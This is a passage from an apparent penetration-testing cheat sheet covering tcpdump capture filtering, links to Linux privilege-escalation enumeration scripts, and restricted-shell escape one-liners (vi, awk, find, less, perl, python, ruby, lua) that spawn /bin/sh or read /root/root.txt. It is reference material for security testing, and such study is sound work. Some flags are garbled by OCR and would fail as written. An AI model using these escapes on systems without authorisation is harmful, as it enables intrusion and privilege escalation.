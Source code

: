     ```
    tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
    tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
    ```
  - Open a PCAP: `tcpdump -­r password_cracking_filtered.pcap`
  - Cut only IP addresses from the traffic: `tcpdump -­r password_cracking_filtered.pcap  | awk-­‐F" " '{print $3}' | sort -­‐u | head`
  -  Filter Destination or Source
    ```
    tcpdump -n src host <ip> -­r password_cracking_filtered.pcap
    tcpdump -n dst host <ip> ‐r password_cracking_filtered.pcap
    tcpdump -n port <port> -­r password_cracking_filtered.pcap
    ```
  - Advanced Header Filtering: `tcpdump -A -n 'tcp[13] = 24' -­‐r password_cracking_filtered.pcap`
    ![](https://github.com/ayomawdb/cheatsheets/raw/master/.data/.images/tcpdump_001.png)
  - Other important flags
    - `-nn` stop DNS and service names lookup (performance+)
    - `-X` and `-XX` can be used to print each packet in hex and ascii
    - `-A` print packets in ASCII
    - `-S` to print absolute sequence numbers
    - `-s` can be used to increase the default snap-length from 262144 to higher
    - `-s` 0 to capture full packet
  - References:
    - <https://hackertarget.com/tcpdump-examples/>


## General Exploits

**Enumeration Scripts**

- BeRoot: <https://github.com/AlessandroZ/BeRoot/tree/master/Linux>
- unix-privesc-check: <https://github.com/pentestmonkey/unix-privesc-check>
- linuxprivchecker.py: <http://www.securitysift.com/download/linuxprivchecker.py>
- LinEnum: <https://github.com/rebootuser/LinEnum>
- Lse.sh: <https://github.com/diego-treitos/linux-smart-enumeration>
- LinPEAS: <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

**Escape shell**

- Information about environment:
    ```
    env
    echo $PATH
    echo /usr/local/rbin/*
    ```
- List read only variables (check If PATH or SHELL is writable): `export -p`
- VI / VIM: `:set shell=/bin/bash` `:shell` `:sh` | `:! /bin/bash`| `:r /root/root.txt` | `:e /root/root.txt`
- AWK: `awk 'BEGIN {system("/bin/sh")}'`
- Find: `find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
- More / Less / Man: `! /bin/sh` `!/bin/sh` `!bash`
- Tee: `echo "evil script code" | tee script.sh`
- Languages
    ```bash
    python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
    perl -e 'exec "/bin/sh";'
    perl: exec "/bin/sh";
    ruby: exec "/bin/sh"
    lua: os.execute('/bin/sh')
    irb(main:001:0> exec "/bin/sh"
    ```
- Copy files into `$PATH`
- Copy file into `HOME` (scp/ftp)
- Some restricted shells will start by running some files in an unrestricted mode (If your `.bash_profile` is executed in an restricted mode and it's editable)